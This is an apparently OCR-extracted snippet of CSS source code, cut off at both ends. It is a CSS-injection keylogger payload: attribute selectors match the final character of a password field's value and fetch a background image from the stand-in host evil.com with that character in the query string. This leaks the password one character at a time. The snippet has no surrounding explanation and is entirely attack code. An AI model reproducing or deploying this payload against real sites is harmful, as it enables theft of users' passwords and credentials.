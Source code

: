 ```css
#password[value$="O"] {
  background-image: url("http://evil.com/?c=O");
}
#password[value$="P"] {
  background-image: url("http://evil.com/?c=P");
}
#password[value$="Q"] {
  background-image: url("http://evil.com/?c=Q");
}
#password[value$="R"] {
  background-image: url("http://evil.com/?c=R");
}
#password[value$="S"] {
  background-image: url("http://evil.com/?c=S");
}
#password[value$="T"] {
  background-image: url("http://evil.com/?c=T");
}
#password[value$="U"] {
  background-image: url("http://evil.com/?c=U");
}
#password[value$="V"] {
  background-image: url("http://evil.com/?c=V");
}
#password[value$="W"] {
  background-image: url("http://evil.com/?c=W");
}
#password[value$="X"] {
  background-image: url("http://evil.com/?c=X");
}
#password[value$="Y"] {
  background-image: url("http://evil.com/?c=Y");
}
#password[value$="Z"] {
  background-image: url("http://evil.com/?c=Z");
}
#password[value$="["] {
  background-image: url("http://evil.com/?c=%5B");
}
#password[value$="\\"] {
  background-image: url("http://evil.com/?c=%5C");
}
#password[value$="]"] {
  background-image: url("http://evil.com/?c=%5D");
}
#password[value$="^"] {
  background-image: url("http://evil.com/?c=%5E");
}
#password[value$="_"] {
  background-image: url("http://evil.com/?c=_");
}
#password[value$="`"] {
  background-image: url("http://evil.com/?c=%60");
}
#password[value$="a"] {
  background-image: url("http://evil.com/?c=a");
}
#password[value$="b"] {
  background-image: url("http://evil.com/?c=b");
}
#password[value$="c"] {
  background-image: url("http://evil.com/?c=c");
}
```